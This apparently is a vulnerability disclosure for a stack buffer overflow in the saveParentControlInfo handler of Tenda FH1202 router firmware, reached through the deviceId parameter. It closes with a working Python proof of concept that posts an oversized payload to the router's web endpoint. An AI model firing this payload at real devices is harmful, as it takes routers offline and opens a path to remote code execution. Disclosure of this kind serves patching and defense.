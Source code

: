 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability. It reads in a user-provided parameter `deviceId`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240319223210791](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223210791.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240319223227916](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223227916.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000

data = {"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319223442316.png)
